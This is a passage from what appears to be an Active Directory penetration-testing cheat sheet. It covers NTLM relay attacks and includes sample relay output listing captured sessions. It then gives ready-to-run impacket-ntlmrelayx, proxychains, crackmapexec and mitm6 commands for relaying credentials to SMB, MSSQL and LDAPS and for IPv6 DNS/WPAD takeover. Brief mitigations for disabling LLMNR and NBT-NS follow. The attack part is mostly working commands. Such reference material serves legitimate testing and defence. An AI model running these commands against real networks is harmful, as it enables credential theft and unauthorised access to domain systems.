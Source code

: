     MSSQL     192.168.48.230  VULNERABLE/ADMINISTRATOR  1433
    SMB       192.168.48.230  CONTOSO/NORMALUSER1       445
    MSSQL     192.168.48.230  CONTOSO/NORMALUSER1       1433

    # You might need to select a target with "-t"
    impacket-ntlmrelayx -t mssql://10.10.10.10 -socks -smb2support
    impacket-ntlmrelayx -t smb://10.10.10.10 -socks -smb2support

    # the socks proxy can then be used with your Impacket tools or CrackMapExec
    $ proxychains impacket-smbclient //192.168.48.230/Users -U contoso/normaluser1
    $ proxychains impacket-mssqlclient DOMAIN/USER@10.10.10.10 -windows-auth
    $ proxychains crackmapexec mssql 10.10.10.10 -u user -p '' -d DOMAIN -q "SELECT 1"   
    ```

**Mitigations**:

 * Disable LLMNR via group policy
    ```powershell
    Open gpedit.msc and navigate to Computer Configuration > Administrative Templates > Network > DNS Client > Turn off multicast name resolution and set to Enabled
    ```
 * Disable NBT-NS
    ```powershell
    This can be achieved by navigating through the GUI to Network card > Properties > IPv4 > Advanced > WINS and then under "NetBIOS setting" select Disable NetBIOS over TCP/IP
    ```

#### SMB Signing Disabled and IPv6

Since [MS16-077](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-077) the location of the WPAD file is no longer requested via broadcast protocols, but only via DNS.

```powershell
crackmapexec smb $hosts --gen-relay-list relay.txt

# DNS takeover via IPv6, mitm6 will request an IPv6 address via DHCPv6
# -d is the domain name that we filter our request on - the attacked domain
# -i is the interface we have mitm6 listen on for events
mitm6 -i eth0 -d $domain

# spoofing WPAD and relaying NTLM credentials
impacket-ntlmrelayx -6 -wh $attacker_ip -of loot -tf relay.txt
impacket-ntlmrelayx -6 -wh $attacker_ip -l /tmp -socks -debug

# -ip is the interface you want the relay to run on
# -wh is for WPAD host, specifying your wpad file to serve
# -t is the target where you want to relay to. 
impacket-ntlmrelayx -ip 10.10.10.1 -wh $attacker_ip -t ldaps://10.10.10.2
```
